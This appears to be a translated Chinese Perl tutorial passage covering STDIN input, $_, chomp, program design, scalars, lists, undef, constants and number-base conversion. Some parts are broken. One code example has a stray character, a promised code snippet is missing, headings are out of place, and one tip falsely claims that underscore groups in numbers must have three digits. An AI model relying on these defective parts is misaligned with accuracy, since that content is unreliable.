正如我们所看到的，你可以使用 **print** 函数来显示输出，但如何接受输入呢？你可以通过简单地使用尖括号 **<** 和 **>** 从 **STDIN** 文件句柄读取。例如，以下展示了如何使用 **while** 循环（在第 5 章介绍）来读取用户输入的每一行，将这些行存储在名为 **$temp** 的变量中，并打印每一行：

```
while ($temp = <STDIN>) {
    print $temp;
}
```


## 基础技能：使用默认变量 `$_`

当你使用 **\<STDIN\>** 构造而不将其返回值赋给一个变量时，Perl 会自动将该返回值赋给一个名为 **`$_`** 的特殊变量。许多 Perl 函数使用这个被称为 *默认变量* 的特殊变量作为默认值（如果你未指定其他变量），这意味着你可以使用 **print** 函数而无需指定任何变量来打印 **`$_`** 的内容。（还有很多其他特殊变量可用。例如，**`$!`** 包含当前存在的错误（如果有的话）。你将在第 10 章看到它们。）我们将在整本书中看到这些函数。

事实上，你可以完全省略 **STDIN**。如果你只单独使用尖括号 **<** 和 **>**，而不指定任何文件句柄，则默认使用 **STDIN**。（Perl 充满了这样的默认设置，这可能让专家更容易，但让新手感到困惑——这或许解释了为什么专家喜欢它。）利用这些快捷方式，上一主题的代码看起来像这样：

```
while(<>) {
    print;
}
```

前面的代码实际上是这段代码的简写版本，功能完全相同：

```
while($_ = <STDIN>) {
    print $_;
}
```

> **提示：** 事实上，前面示例中的 `while` 语句与 `while(<>)` 并非完全相同。虽然从 STDIN 读取时这没有太大区别，但那行代码最好展开为 `while (defined ($_ = <STDIN>))`，因为从文件末尾读取会返回 Perl 的未定义值 `undef`，而 `defined` 函数会检查这个值。我们将在本书后面更详细地讨论这个主题。

一些代码风格拥护者反对过度使用 `$_`，因为其隐式的、幕后运作的特性在许多页的代码中可能非常难以跟踪。也就是说，如果你有五页的代码需要检查，你可能会错过第 3 页上隐式设置 `$_` 的某些操作，并误以为第 5 页使用的 `$_` 与第 1 页代码中的值相同。然而，Perl 脚本通常相当短，即使不短，使用 `$_` 的操作通常也是局部化的，不会分散在多页之上。

请注意，无法给出一组简单的规则来明确何时可以使用 `$_`，何时不能，因为有些 Perl 函数使用 `$_`，有些则不使用，这意味着你必须逐个函数地进行判断。我们将在第 6 章关于正则表达式以及第 11 至 13 章关于 Perl 函数中探讨这些信息。

当你习惯了使用 `$_`，它通常会使编程变得容易得多，但对未入门者来说可能更困惑。在以下示例中，每个语句都隐式地使用了 `$_`：

```
while (<>) {
    for (split) {
        s/m/y/g;
        print;
    }
}
```

这个脚本做什么？它把你输入的行拆分成单词，遍历这些单词，将所有的 m 转换为 y，并打印结果，如下所示（这里，我输入了 "them"，得到了 "they"）：

```
%perl mtoy.pl

them
they
```

那么，如果你把 `$_` 默认变量显式地放回去，这段代码会是什么样子呢？它看起来像这样（注意前面代码没有显式 `$_` 时是多么简洁）：

```
while ($_ = <>) {
   for $_ (split / /, $_) {
       $_ =~ s/m/y/g;
       print $_;
   }
}
```

再考虑另一个例子。在这个例子中，代码会执行你输入的行代码，只要该行不是以 `#` 开头（`#` 表示该行是注释）：

```
while (<>) {eval if !/^#/>}
```

在这里，你可以看到这个示例实际运行的样子。首先，我输入了一个注释行，结果没有任何输出：

```
%perl eval.pl
#print "Hello";
```

然而，如果你输入了一行有效的 Perl 代码，脚本会执行它，如下所示：

```
%perl eval.pl
#print "Hello";
print "Hello";

Hello
```

把 `$_` 放回去，这个脚本会是什么样子？像这样（注意早期版本要简洁得多）：

```
while ($_ = <>) {eval $_ if !($_ =~ /^#/)}
```

在 Perl 中使用 `$_` 是一项需要学习的技能。你可以将它用于各种循环、函数和构造，但不能用于其他一些。使用它可能会加大学习曲线。然而，当你知道你在做什么时，你会一直隐式地使用 `$_`；这会成为你的第二天性。我们将在整本书中看到哪些循环、函数和构造使用 `$_`。

## 基础技能：清理输入内容

程序质量控制部门的人打电话来投诉你编写的那段代码。它本应接受用户简单的 "yes" 或 "no" 响应。但程序运行时出现的实际字符串末尾都附加了一个换行符：`'yes\n'` 和 `'no\n'`。这是怎么回事？

你从 **STDIN** 读取的输入包括用户键入的所有内容，包括末尾的换行符。要去掉那个换行符，你可以使用 **chop** 或 **chomp** 函数。这里，你可以看到如何使用 **chop**：

```
chop VARIABLE
chop LIST
chop
```

此函数删除字符串的最后一个字符并返回被删除的字符。如果省略 *VARIABLE*，**chop** 会删除默认变量 *`$_`*。例如，看看这个脚本：

```
while (<>) {
    print;
}
```

当脚本打印输入的每一行时，你会看到每一行后面都有一个换行符。然而，如果你删除输入，脚本打印每一行时就不会出现换行符：

```
while (<>) {
    chop;
    print;
}
```

除了使用 **chop**，你也可以使用 **chomp**：

```
chomp VARIABLE
chomp LIST
chomp
```

**chomp** 函数是 **chop** 的更安全版本；它只移除与 *`$/`*（持有输入记录分隔符的 Perl 特殊变量，默认为换行符）当前值对应的行结束符。此函数返回被移除的字符总数，通常用于移除输入记录末尾的换行符。如果省略 *VARIABLE*，它会 **chomp** *`$_`*。

你可以在本章前面我编写的 Perl shell 中看到 **chomp** 的实际应用：

```
#!/usr/bin/perl -w   # Use Perl with warnings
my $count = 0;        # $count used to match {}, (), etc.
my $statement = "";   # $statement holds multiline statements
local $SIG{__WARN__} = sub {}; # Suppress error reporting

while (<>) {          # Accept input from the keyboard

    chomp;            # Clean up input
    while (/[{}|\(\)|\[/g) {$count++};   # Watch for {, (, etc.
    while (/[}\)\]]/g) {$count--};       # Pair with }, ), etc.

    $statement .= $_ . " ";    # Append input to current statement

    if (!$count) {      # Only evaluate if {, ( matches }, ) etc.

        eval $statement; # Evaluate the Perl statement
        if($@) {print "Syntax error.\n"};  # Notify of error
        $statement = ""; # Clear the current statement
        $count = 0       # Clear the multiline {, ( etc. count

    }
}
```

## 基础技能：避免在 Windows 中脚本立即关闭

程序质量控制部门的人又打电话来了。你的脚本在 Windows 中运行时有问题。用户非常耐心地双击你的脚本来运行它，看着屏幕上有些东西闪烁了一下，然后就这样结束了。你能修复这个问题吗？

如果你在使用 Windows 版 Perl，情况是这样的：当你双击一个扩展名为 `.pl` 的文件时，一个 MS-DOS 窗口出现，脚本执行，然后 MS-DOS 窗口立即关闭，没有给你机会查看脚本的输出。

如果你让脚本在执行后等待键盘输入，就可以解决这个问题。只需将这两行添加到脚本的末尾：

## 基本技能：设计 Perl 程序

你已被任命为程序设计负责人，新办公室令人惊艳。然而，当你坐在角落的窗边，抚摸着崭新的柚木书桌时，你怀疑自己能否胜任这个新职位。

用 Perl 进行程序设计并非易事。在代码设计专家中——他们往往偏爱 C++——Perl 被认为是一种有点东拼西凑、缺乏整体设计的语言。然而，用 Perl 编写设计良好的程序和完整的应用程序是完全可能的，我们将在第 19 章看到相关的具体 Perl 风格问题。我们还应该

事实上，创建新应用程序最重要的方面之一就是设计该应用程序。糟糕的选择最终可能会在产品的多次修订中阻碍你的应用程序。市面上有很多关于程序设计的书籍。微软（对此应该有所了解）将这一过程分为四个领域：

- *性能*——响应能力和速度与资源使用的整体优化
- *可维护性*——应用程序易于维护的能力
- *可扩展性*——以定义良好的方式扩展应用程序的能力
- *可用性*——应用程序实现的整体稳健性

我们现在将快速了解一下这四个方面。

## 性能

*性能*是一个难以反驳的设计问题。如果用户无法从你的应用程序中获得他们想要的，那显然是个问题。一般来说，性能取决于用户的需求。对某些人来说，速度至关重要；对另一些人来说，稳健性是关键；还有人看重资源的高效使用。总体而言，应用程序的性能表明了它满足用户需求的程度。在编写 Perl 脚本时，你应该考虑这些性能的常规方面：

- 算法效率
- CPU 速度
- 高效的数据库设计和规范化
- 外部访问限制
- 网络速度
- 预加载代码
- 安全性问题
- 速度问题
- 资源使用
- Web 访问速度

我们将在第 19 章深入探讨更多细节。

## 可维护性

*可维护性*衡量的是你将应用程序适应未来需求的难易程度。这个问题归结为使用良好的编程实践，我将在全书中讨论这一点。其中大部分是简单的常识，并在编写代码时考虑到未来的编码需求。在“最佳编程”武器库中的一些主要问题包括：

- 避免循环和条件语句的深度嵌套。
- 避免将全局变量传递给过程。
- 编写模块化代码。
- 将代码分解为包。
- 记录程序更改。
- 每个过程只赋予一个目的。
- 确保你的应用程序能够很好地扩展以适应更大的任务和更多用户。
- 规划代码重用。
- 防御性编程。
- 使用访问过程处理敏感数据。
- 使用注释。
- 使用一致的变量名。
- 使用常量代替“魔法”数字。

## 可扩展性

可扩展性是指你的应用程序能够以定义良好且相对容易的方式进行扩展的能力。可扩展性通常只在较大的应用程序中才会被关注，并且通常涉及一个专为扩展模块设计的整个接口。事实上，Perl 本身就是为了可扩展而设计的，我们将在第 15 章创建一些 Perl 扩展。

## 可用性

可用性衡量的是你的应用程序可供使用的时间与用户想要使用它的时间的比率。这个衡量标准包括从执行长时间任务时不冻结（至少给用户提供一些操作状态反馈），到使用不易挂起的技术和方法，再到备份关键数据，以及在可能的情况下，当访问所需资源被阻塞时，计划使用替代资源。

总的来说，设计过程需要相当多的时间。事实上，整个开发生命周期是许多研究的主题。你可能会惊讶地发现，当你加上现场测试、内部测试、规划、设计、用户界面测试等等时，一些研究将实际编码分配的总项目时间比例低至 15%。

# 1. Perl 基础

# 第 1 章 Perl 基础

关于软件的开发周期已经有很多著述，所以我这里不再赘述。但是，值得注意的是，程序员不应忽略关键的设计步骤，因为在严肃的项目中，这样做从长远来看可能会比短期节省的时间导致更多问题。

# 第 2 章

## 标量变量和列表

| 如果你需要关于以下内容的即时解决方案： | 参见页码： |
| --- | --- |
| 什么是标量变量？ | 51 |
| 标量变量命名 | 52 |
| 声明标量变量 | 53 |
| 在标量变量上使用赋值运算符 | 53 |
| 什么是左值？ | 55 |
| 在标量变量中使用数字 | 55 |
| 处理未定义值：**undef** | 56 |
| 声明常量 | 57 |
| 在 Perl 中处理真值 | 58 |
| 十进制和二进制之间的转换 | 59 |
| &nbsp;&nbsp;&nbsp;&nbsp;十进制转二进制 | 60 |
| &nbsp;&nbsp;&nbsp;&nbsp;二进制转十进制 | 60 |
| 十进制和八进制之间的转换 | 60 |
| &nbsp;&nbsp;&nbsp;&nbsp;十进制转八进制 | 61 |
| &nbsp;&nbsp;&nbsp;&nbsp;八进制转十进制 | 61 |
| 十进制和十六进制之间的转换 | 61 |
| &nbsp;&nbsp;&nbsp;&nbsp;十进制转十六进制 | 62 |
| &nbsp;&nbsp;&nbsp;&nbsp;十六进制转十进制 | 62 |
| 为标量赋予默认值 | 62 |
| 数字舍入 | 63 |
| 在标量变量中使用字符串 | 64 |
| 它是字符串还是数字？ | 67 |
| 关于字符串和数字之间转换的一切 | 68 |
| 使用变量插值 | 69 |
| *（续）* | |
| 使用高级插值 | 71 |
| 处理引号和裸词 | 73 |
| 什么是列表？ | 76 |
| 通过索引引用列表元素 | 78 |
| 将列表赋值给其他列表 | 80 |
| 将列表连接成字符串 | 81 |
| 将字符串分割成列表 | 82 |
| 使用 **map** 处理列表中的每个项目 | 84 |
| 使用 **grep** 查找符合你标准的列表项 | 85 |
| 对列表排序 | 87 |
| 反转列表 | 90 |
| 强制标量上下文 | 90 |

# 深入解析

编程全部是为了处理数据以产生任何输出；即使是最简单的程序也必须处理数据，即使只是一串要显示的文本。数据处理是编程的基石，而扎实理解 Perl 编程的第一步就是理解 Perl 如何处理数据。

事实上，Perl 特别擅长数据处理，所以你将在本书中看到很多关于这个主题的内容。在本章中，你将看到 Perl 如何处理两种类型的数据：标量变量和列表。*标量变量*存储单个数据项，而*列表*存储多个数据项。

你需要从一开始就理解标量变量和列表之间的区别。标量变量是实际的数据类型——也就是说，你可以为它们分配存储空间——而 Perl 中没有可用的列表数据类型。标量变量和列表之间的区别是*上下文*的差异，而不是数据类型的差异。Perl 知道你是在它所谓的*标量上下文*中工作，还是在*列表上下文*中工作。许多 Perl 函数和运算符对上下文敏感。例如，如果你的代码在列表上下文中使用了这样的函数或运算符，你可能会将其返回值赋给一个列表；这是给 Perl 的一个提示，表明你期望一个数据项列表。如果函数在标量上下文中使用，Perl 知道你期望的是一个标量。

与标量变量不同，Perl 中没有实际的列表数据类型；也就是说，它没有名为*list*的存储类型。你通过编写代码来一次性处理多个项目——而不仅仅是单个——使用列表语法来使用列表。例如，向标量变量的数据赋值可能如下所示：

这里要理解的关键点是，你在代码中使用列表来一次性处理多个项目，但使用列表只是一种代码技巧。列表不像标量变量那样代表正式的数据存储格式。理解这一点对于在 Perl 中处理数据至关重要。


## 标量变量

实际上，Perl 只有三种内置的数据格式：标量变量、数组和哈希。（哈希也称为关联数组，其工作方式非常类似于以文本字符串为键进行索引的数组。）本章将介绍如何使用标量变量及其列表，而数组和哈希将在下一章介绍。我们可以将这些格式组合起来创建复杂的数据结构，正如我在第 16 章中将向你展示的那样。

现在让我更系统地探讨本章的两个主题：标量变量和列表。

*标量变量*是许多编程语言中所说的简单变量（在 Perl 中，它们通常简称为标量）。它们保存单个数据项——一个数字、一个字符串或一个 Perl 引用。（要了解更多关于 Perl 引用的细节，请参阅第 9 章。）标量之所以称为标量，是为了与可以保存多个项的结构（如数组）区分开来。（用科学术语来说，标量是一个简单的数值。向量可以有多个值，实际上，在编程中一维数组通常被称为向量。）

你需要在标量变量的名称前加上 **$**。用 Perl 的术语来说，**$** 是标量的*前缀解引用符*，对标量使用它意味着 Perl 将知道如何处理你的标量——并且你的标量变量名不会与 Perl 中的保留字（即 Perl 语言内置的单词）冲突。

> **提示：** 在 Perl 中，你为每种数据格式使用不同类型的前缀解引用符：标量用 **$**，数组用 **@**，哈希用 **%**。你甚至对非数据格式的项也使用前缀解引用符：子程序名使用 **&**，类型球（可以表示与变量关联的所有数据类型）使用 **\***。（你将在下一章找到更多关于类型球的细节。）除了接受前缀解引用符的项之外，在 Perl 中你可以命名三种不接受前缀解引用符的项：文件句柄、格式名和目录句柄。Perl 从它们使用的上下文中理解这些项的类型。你也可以在 Perl 中使用标签来标记代码中的位置，它们也不需要前缀解引用符。标签不命名任何特定的项；它们仅供解释器使用。

标量有两种类型：数字和字符串。你可以像这样使用 **=** 赋值运算符为标量变量赋值：

```
$scalar1 = 5;
$scalar2 = "Hello there!";
```

你还可以对标量使用 Perl 运算符和函数。你使用的运算符和函数通常取决于标量中的数据是数字还是字符串。因此，需要记住的关键点是，标量变量代表存储单个数据项——字符串或数字——的实际内存位置。这些变量是 Perl 中数据存储的基本单位。

## 列表

顾名思义，*列表*就是数据元素的列表。这些元素不必是标量值。它们本身可以是数组或哈希（这两者我们都将在下一章介绍），甚至可以是其他列表。

正如我之前提到的，与标量不同，列表没有特定的列表数据类型。请注意，Perl 中列表的概念非常重要，我们将在整本书中使用列表。列表是将数据元素关联在一起的构造，你可以通过将这些元素括在括号中并用逗号分隔来指定一个列表。这个例子使用旨在接受列表参数的 **print** 函数打印列表中的元素（**"H"**、**"e"**、**"l"**、**"l"**、**"o"**）：

```
print ("H", "e", "l", "l", "o");
```

Hello

请注意，在这种情况下，我在打印之前没有将列表（**"H"**、**"e"**、**"l"**、**"l"**、**"o"**）赋值给变量，因为 Perl 没有显式的列表变量类型。

如果不需要括号来表示你想在列表上下文中工作，并且不会产生混淆，你也可以在处理列表时省略括号，就像这个例子一样，我将 **"H"**、**"e"**、**"l"**、**"l"**、**"o"** 传递给 **print** 函数：

```
print "H", "e", "l", "l", "o";
```

Hello

Perl 内置的函数分为两组：期望标量参数的函数和期望列表的函数（尽管许多函数被编写为可以接受任一种）。

## 标量和列表上下文

Perl 如何知道何时将数据视为标量，何时视为列表？Perl 根据上下文做出决定，主要有两种上下文：标量上下文和列表上下文。（它们本身也会进一步细分；例如，数字上下文和文本字符串上下文都是标量上下文。）

换句话说，如果 Perl 期望一个列表（就像你使用一个只接受列表的函数时），它会将你的数据视为列表。如果它期望一个标量，它会将你的数据视为标量。在实践中，这意味着你必须了解哪些函数是标量函数，哪些是列表函数。我将在首次介绍每个函数时通过指明它接受的数据类型来表明它是哪种类型，就像这个关于 **map** 函数的例子：

```
map BLOCK LIST
```

换句话说，数据的处理方式在 Perl 编程中是*隐式*的，基于你使用该数据的上下文，而不是在代码中显式设置。例如，如果你使用接受或返回列表参数的函数，那么这些参数会自动被视为列表。

在标量上下文中，列表可以变成标量；在列表上下文中，标量通常变成单元素列表。然而，Perl 中没有规则指定一个表达式在列表上下文中的行为与其在标量上下文中的行为相对应，反之亦然。例如，当切换到标量上下文时，有些运算符返回在列表上下文中会返回的列表的长度，有些返回列表中的第一个值，有些返回列表中的最后一个值，有些甚至返回成功操作的计数。这个结果听起来可能很复杂，但通常你不会在标量和列表上下文之间切换，所以你可能不会经常遇到这样的问题。当这很重要时，我会明确说明这种行为。

你也可以通过将列表括在括号中来显式地指示你想在列表上下文中工作，或者可以使用 `scalar` 函数强制使用标量上下文。我们将在本章中全面了解标量和列表上下文，实际上，现在是时候开始编写一些 Perl 代码了。

## 什么是标量变量？

大老板又在盯着你的肩膀看了。“你的脚本是时候开始处理一些数据了，”大老板说。“好的，”你说，“我会添加几个标量。”大老板赞赏地看着。你将如何做到这一点？

*标量变量*是内存中一个数据空间的名称，存储在该数据空间中的数据可以是一个数字或一串文本。

> **提示：** 实际上，标量变量也可以存储另一种 Perl 数据类型：未定义类型，从技术上讲，它既不是数字也不是字符串。*（请参阅本章后面的“处理未定义值：**undef**”主题。）*

在 Perl 中，标量是无类型的（引用除外，引用是强类型的），这与 C 等语言不同，后者坚持要求你为这类变量声明类型，例如 **int** 或 **float**。Perl 根据操作的上下文来确定标量中包含哪种数据——数字、字符串等等。

你只需通过引用它们就可以创建标量变量，这个过程在 Perl 中称为*自动声明*（我们稍后会详细介绍）。以下是一些示例：

```
$x = 100;
$y = 200;
$warning = "Do you smell smoke?";
```

这样创建的标量是全局的，这意味着它们在当前脚本（更准确地说，是在当前包）中的任何地方都可用，但你也可以使用 **my** 和 **local** 关键字的声明来局部化它们。我将在第 7 章讨论子程序时介绍变量作用域时，向你展示如何局部化它们。

| 相关解决方案： | 找到页码： |
|:---|---:|
| 使用 **my** 设置作用域 | 299 |
| 使用 **local** 创建临时变量 | 302 |


## 命名标量变量

用于标量变量的名称可以包含字母、数字和下划线。这样的名称必须以 $ 符号开头，以防止与 Perl 中的保留字冲突。标量变量的名称可以很长；虽然长度取决于平台，但变量名至少可以有 255 个字符长。

> 提示：标量变量名也可以包含单引号，尽管这种做法现在已不再推荐（即仍然可用但被认为是过时的）。

因为标量变量名以 $ 开头，所以不会与 Perl 保留字冲突，你可以用小写字母来写它们，大多数程序员也这样做。（几乎所有 Perl 保留字都是小写的，除了像 **STDIN** 这样的文件句柄或像包中的 **BEGIN** 块这样的隐式调用的函数。）

请特别注意标量变量名区分大小写——**$variable1** 与 **$Variable1** 不同——如果你的操作系统本身不区分大小写（如 MS-DOS），这一点需要牢记。

在初始的 $ 之后，你可以用任何字母或下划线开始变量名。事实上，你甚至可以在 $ 之后使用数字作为第一个字符。但是，如果你以数字开头命名变量，那么它必须完全由数字组成。你甚至可以在变量名中使用非字母数字和非下划线字符。但这样做的话，变量名在 $ 之后只能有一个字符（就像 Perl 的内置特殊变量如 $_ 一样）。

> 提示：虽然标量变量不会因为前导的 $ 而与 Perl 保留字冲突，但你可以创建许多不需要前导符号的标识符，例如文件句柄和标签。为了避免可能与 Perl 保留字冲突，明智的做法是为这些标识符添加几个大写字母。

所有标量变量开头的 $ 符号称为*前缀解引用符*。在这里，你可以看到 Perl 中所有的前缀解引用符及其用途：

- **$**—标量变量
- **%**—哈希变量（即关联数组，详见下一章）
- **@**—数组
- **&**—子程序
- *类型通配符*—例如，**\*myvar** 代表 **myvar** 的所有类型，如 **@myvar**、**%myvar** 等；更多信息请参见第 3 章。

## 声明标量变量

在 Perl 中，与许多其他编程语言不同，你不需要声明标量变量就可以使用它们。第一次使用标量时，如果它不存在，Perl 会创建它。

> **提示：** 请注意这里可能出现拼写错误的可能性。你可能无意中拼错一个变量名，从而创建一个新的、未初始化的变量。Perl 不会将拼写错误视为错误，因此在调试时发现它可能非常困难。你可以使用 **strict** 编译指示来解决这个问题；更多详情请参见第 7 章。

然而，以这种方式创建的标量在整个当前包中都是可用的，这意味着如果你没有将代码划分到包中，它在整个脚本中都是可用的。这样的标量被称为全局变量，具有全局*作用域*；变量的作用域是你可以访问它的所有代码。

然而，通常需要限制变量的作用域，这在第 7 章我们开始将代码划分为块以创建子程序时将成为一个考虑因素。你可以通过两种方式声明具有受限作用域的变量：使用 **my** 和 **local** 关键字。有关作用域和变量声明的更多信息，请参见第 7 章。

| 相关解决方案： | 所在页： |
|:---|:---|
| 使用 **my** 设置作用域 | 299 |
| 使用 **local** 创建临时变量 | 302 |

## 在标量变量上使用赋值运算符

编程团队负责人正在审查你的代码。“所有这些新的标量变量都很好，”PTC 说，“但你似乎从未给它们赋值。”“好吧，”你说，“那该怎么做？”“使用标量赋值，”PTC 说。

如何将数据放入标量变量？你可以使用赋值运算符，就像下面这个例子，我将值 **5** 放入名为 **$variable1** 的变量中：

```
$variable1 = 5;
```

字符串赋值的方式也类似：

```
$variable1 = "Hello there!";
```

## 第 2 章 标量变量和列表

除了单个赋值，你还可以在同一个语句中创建多个赋值，如下所示：

```
$x = $y = $z = 1;

```

在这种情况下，每个标量都被设置为相同的值 1，你可以通过打印它们来验证（我们将在本章后面看到 **join list** 函数）：

```
$x = $y = $z = 1;
print join (", ", $x, $y, $z);

```

```
1, 1, 1

```

你可以使用赋值运算符为任何左值赋值。（如果你不知道什么是左值，请看一下下一个主题。）

除了赋值之外，你还可以对标量使用许多运算符。当然，你可以执行加法、减法、乘法等操作，如下所示：

```
$x = $x + 2;
$x = $x - 2;
$x = $x * 5;

```

实际上，就像在 C 中一样，你可以将 +、- 和 * 等运算符与赋值运算符结合使用，这意味着你可以将前面的示例写成如下形式：

```
$x += 2;
$x -= 2;
$x *= 5;

```

在 Perl 中，与 C 不同，赋值运算符会创建一个有效的左值。使用组合赋值运算符与执行赋值然后对赋值的变量应用另一个运算符是相同的。例如，这段代码

```
($degrees += 100) *= 700;

```

等同于

```
$degrees += 100;
$degrees *= 700;
```

有关 Perl 可用运算符的更多信息，请查看第 4 章。你会在那里找到它们；我在这里介绍的内容只是为了开始当前章节的学习。

## 什么是左值？

*左值*是可以作为赋值目标的项目。术语 lvalue 最初的意思是“左值”，即出现在左边的值，如下所示：

```
$variable1 = 5;
```

左值通常代表内存中的一个数据空间，你可以使用左值的名称来存储数据。任何变量都可以作为左值。

事实上，在 Perl 中，甚至赋值本身也可以作为左值。在这个例子中，我截取了 **$input** 中的值，而不是赋值操作的返回值：

```
chop ($input = 123);
print $input;

12
```

有时你会在 Perl 中看到这种构造，代码读取类型输入，截取它，并将结果留在 **$input** 中，所有操作都在一行完成：

```
chop ($input = <>);
```

## 在标量变量中使用数字

那么在 Perl 中可以处理哪些类型的数字呢？Perl 支持多种数字格式，如表 2.1 所示。（二进制格式在 Perl 5.6.0 中添加。）

**表 2.1** Perl 数字数据类型。

| 类型 | 示例 |
|:---|:---|
| 整数 | 123 |
| 浮点数 | 1.23 |
| 科学计数法 | 1.23E4 |
| 十六进制 | 0x123 |
| 八进制 | 0123 |
| 二进制 | 0b101010 |
| 下划线 | 1_234_567 |

请特别注意下划线数字格式，它允许你将数字中的数字分成三位一组进行格式化，以便于识别像 1,234,567 这样的数字，如下所示：

```
$variable1 = 1_234_567;
```

> 提示：如果下划线分组的不是三位数字，Perl 将生成错误。

让我再讨论一个棘手的问题：*数字精度*。因为 Perl 是一种跨平台语言，并且因为存储数字值的精度因机器而异（所以很遗憾，无法在这里列出你可以预期什么样的数字精度），你可能会在不同机器上发现相同代码的差异。这是需要关注的事情之一。

幕后的一条信息可能有助于你思考精度问题：Perl 使用双精度浮点数进行所有数字计算和内部存储数字。双精度*通常*存储为 8 字节，负值的范围可以从 -1.79769313486232E308 到 -4.94065645841247E-324，正值的范围可以从 4.94065645841247E-324 到 1.79769313486232E308——这不是一个糟糕的值范围。事实上，从 Perl 5.6.0 开始，Perl 使用*长双精度浮点数*，如果在你的系统上可用，它们支持更高的精度。

## 使用未定义的值：undef

你决定使用 **sysread** 函数从文件中读取文本数据，用于你正在用 Perl 编写的新文本编辑器应用程序。你知道 **sysread** 返回一个标量，表示它读取了多少字节。但是，在文件末尾会发生什么？**sysread** 返回什么类型的值？因为它返回标量，所以它必须是一个数字或字符串，对吗？

不对。除了数字和字符串，标量变量还可以包含 Perl 的*未定义*值，称为 **undef**。某些函数会返回此值，你可以使用名为 **defined** 的函数来检查它。如果你直接检查 **undef** 值，它在数字上下文中被解释为 0，在字符串上下文中被解释为空字符串 ""。你也可以使用 **undef** 函数将变量设置为 **undef** 值。

这个例子将变量 **$variable1** 赋值为 **5**：

```
$variable1 = 5;
```


## 声明常量

许多程序员喜欢使用常量，以避免在代码中使用*魔法*数字（例如 **$variable = 23477**，这个值几乎看不出来源）。使用常量有助于在代码中集中管理所有这类数字，便于修改。事实上，你刚收到一封来自“良好编程风格委员会”（GPSC，一位C++程序员）的邮件，他质疑你为何不在Perl代码中使用常量。你能用吗？

事实证明，Perl没有为数字常量定义任何内置类型，但你*可以*自己创建一个。为此，你需要使用*类型glob*，这是一种数据类型，本身可以代表任何其他变量。（类型glob的工作原理超出了本章的范围；关于引用和类型glob的详细信息，请参阅第9章及下一章。）类型glob的前缀解引用符号是 `*`。

## 第2章 标量变量与列表

要创建一个常量，你可以将一个引用赋值给一个类型glob，如下所示。这里，我创建了一个名为 **MAXFILES** 的常量，用于存储最大文件数（我将其大写为 **MAXFILES**，以遵循C和C++的常量命名约定）：

```
*MAXFILES = \100;
```

你可以像访问任何标量变量一样，通过 **$MAXFILES** 来访问这个常量：

```
*MAXFILES = \100;
print "$MAXFILES\n";
```

另一方面，如果你尝试给 **$MAXFILES** 赋一个新值，则会得到一个错误：

```
*MAXFILES = \100;
print "$MAXFILES\n";
$MAXFILES = 101;
```

100
*Modification of a read-only value attempted at constant.pl line 3.*

这个例子展示了在Perl中创建和使用常量的一种方式。请注意，未来的Perl版本很可能会遵循其他编程语言的做法，对常量提供明确的支持。

| 相关解决方案： | 所在页： |
|---|---|
| 使用类型glob | 137 |

### 处理Perl中的真值

你向大老板解释，Perl中的标量可以保存数字、字符串和 **undef**。老板点头表示印象深刻，问道：“那么真值和假值呢？Perl如何存储它们？”“嗯，”你说，“好问题。”

你可以使用标量以两种方式存储真值和假值，对应标量的两种上下文——数字上下文和字符串上下文。要记住的是：在数字上下文中，0是假，而*任何*其他值是真；在字符串上下文中，空字符串 "" 是假，而*任何*其他值（包括负值）是真。

任何非零值都代表为真这一事实在循环等结构中特别有用。（关于循环的所有细节，请参见第5章。）例如，这个值使得 **while** 循环持续运行，因为 **<>** 总会返回一些内容，即使用户输入的是空行（此时，**<>** 会返回一个换行符）：

```
while(<>) {
    print;
}
```

程序员经常依赖于任何非零或非空字符串都为真的这一事实。你会在Perl代码中经常看到类似下面的情况，我在这里检查要除以的值，以避免除以零：

```
if ($bottom) {
    $result = $top / $bottom;
}
else {
    $result = 0;
}
```

> *注意：这种方法并非最佳的编程实践；为了清晰起见，我应该显式地检查 **$bottom** 是否等于 **0**，但这个例子说明了一种常见的编程实践。*

需要记住的一点是，确保在应该检查 **undef** 时，不要测试假值。例如，某些函数在没有更多数据可读时会返回 **undef**，所以当需要时，请确保使用 **defined** 函数来检查 **undef**。当我们稍后使用子程序时，这一点会变得更加清楚；例如，如果一个子程序在失败时返回 **undef**，你可能会倾向于这样测试它（使用我们将在几章中看到的语法）：

```
print "Got a data value." if ($value = returnvalue($index));
```

然而，你应该这样测试：

```
print "Got a data value." if defined($value = returnvalue($index));
```

## 在十进制和二进制之间转换

你正在用Perl开发新的二进制计算器，项目技术协调员（PTC）对你的进展非常满意。但你遇到了一个小麻烦：究竟该如何显示二进制数呢？Perl似乎没有内置任何相关功能。

Perl中没有内置的从十进制转换为二进制的方法，尽管Perl确实现在支持二进制数字的字面量表示，如0b101010。不过，你可以使用 **pack** 和 **unpack** 函数（见第11章）将数字转换为二进制数字字符串，然后再转换回来。

### 十进制转二进制

要将一个数字转换为二进制数字字符串，你可以先使用网络字节序（也称为*大端*顺序，即最高有效位在前）**pack** 它，然后像这样逐位 **unpack**：

```
$decimal = 4;
$binary = unpack("B32", pack("N", $decimal));
print $binary;
```

*00000000000000000000000000000100*

既然我们已经完成了一个方向，我们来看看反向过程。

### 二进制转十进制

要将二进制数字字符串转换回数字，你只需反转上述过程，如下所示：

```
$decimal = 4;
$binary = unpack("B32", pack("N", $decimal));
$newdecimal = unpack("N", pack("B32", $binary));
print $newdecimal;
```

*4*

注意，你以这种方式转换的字符串必须有32位，因此如有必要，请确保添加前导0。这就是全部所需。当然，你也可以使用字面量表达式来表示二进制值，例如 **$number = 0b101010**。

| 相关解决方案： | 所在页： |
|---|---|
| pack 将值打包成字符串 | 481 |
| unpack 从打包的字符串中解包值 | 502 |

### 在十进制和八进制之间转换

项目技术协调员对你的二进制计算器很满意——实际上，他非常满意，以至于希望你为计算器添加八进制（基数为8的数字）。“太好了，”你说，“我该怎么做？”

在Perl中使用八进制并不困难。在Perl中，八进制数（即八进制常量值）通过前导0指定，如0123：

```
$x = 0123;
```

要在八进制和十进制之间转换，只需使用 **sprintf** 和 **oct** 函数，具体如下。

### 十进制转八进制

要将十进制数转换为由字符串表示的八进制数，请使用Perl的 **sprintf** 函数（有关 **sprintf** 的更多信息，请参见第11章），并使用 **%o** 转换说明符：

```
print sprintf "%lo", 16;
```

*20*

### 八进制转十进制

要从八进制转换为十进制，只需像这样使用 **oct** 函数：

```
print oct 10;
```

*8*

如果没有指定要转换的值，此函数默认使用 **$_**。

### 在十进制和十六进制之间转换

你可能已经猜到了。在你创建了二进制和八进制Perl计算器之后，项目技术协调员希望你再添加十六进制（基数为16）。好的，那么如何在Perl中表示十六进制数呢？

在Perl中，*十六进制数*（即常量值）以 **0x** 为前缀书写，如0x1AB：

```
$x = 0x1AB;
```

